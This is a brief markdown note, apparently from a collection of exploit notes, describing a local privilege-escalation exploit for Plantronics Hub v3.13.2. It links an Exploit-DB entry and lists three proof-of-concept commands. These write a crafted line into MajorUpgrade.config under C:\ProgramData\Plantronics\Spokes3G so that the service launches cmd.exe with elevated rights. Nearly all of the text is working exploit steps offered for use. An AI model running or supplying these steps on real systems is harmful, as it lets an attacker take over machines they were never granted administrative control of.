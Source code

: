 # plantronics hub

## v3.13.2 (Local Privesc)

```
https://www.exploit-db.com/exploits/47845

Steps for exploitation (PoC):
- Open cmd.exe 
- Navigate using cd C:\ProgramData\Plantronics\Spokes3G
- echo %username%^|advertise^|C:\Windows\System32\cmd.exe > MajorUpgrade.config
```
